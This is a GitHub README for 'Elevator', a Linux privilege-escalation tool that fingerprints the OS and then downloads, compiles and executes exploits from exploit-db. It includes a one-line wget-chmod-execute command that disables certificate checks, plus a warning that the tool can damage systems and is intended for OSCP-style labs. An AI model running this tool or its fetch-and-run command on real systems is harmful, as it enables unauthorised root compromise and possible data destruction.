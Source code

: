 # Elevator
[![Build Status](https://travis-ci.org/guifre/Elevator.svg?branch=master)](https://travis-ci.org/guifre/Elevator.svg?branch=master) [![Coverage Status](https://coveralls.io/repos/github/guifre/Elevator/badge.svg?branch=master)](https://coveralls.io/github/guifre/Elevator?branch=master)

Elevator automates elevation of privileges in Linux systems. It fingerprints the operating system version, downloads, compiles, and executes the relevant exploits from `exploit-db.com`

## Usage

```
wget --no-check-certificate https://raw.githubusercontent.com/guifre/Elevator/master/elevator.py; chmod +x elevator.py; ./elevator.py
```

## Demo

[![Elevator demo](https://github.com/guifre/guifre.github.io/blob/master/elevator.gif)](https://www.youtube.com/watch?v=VCQ7dNVktjs)


## WARNING
Running Escalator will potentially run hundreds of exploits, which can permanently damage your operating system.

Escalator is intended to facilitate EoP in OSCP like labs, where VMs can be easily reset. Use it at your own risk.

## Bugs & Contact
Feel free to mail me with any problem, suggestion or bug report at: me@guif.re

## License
Code licensed under the GPL v3.0.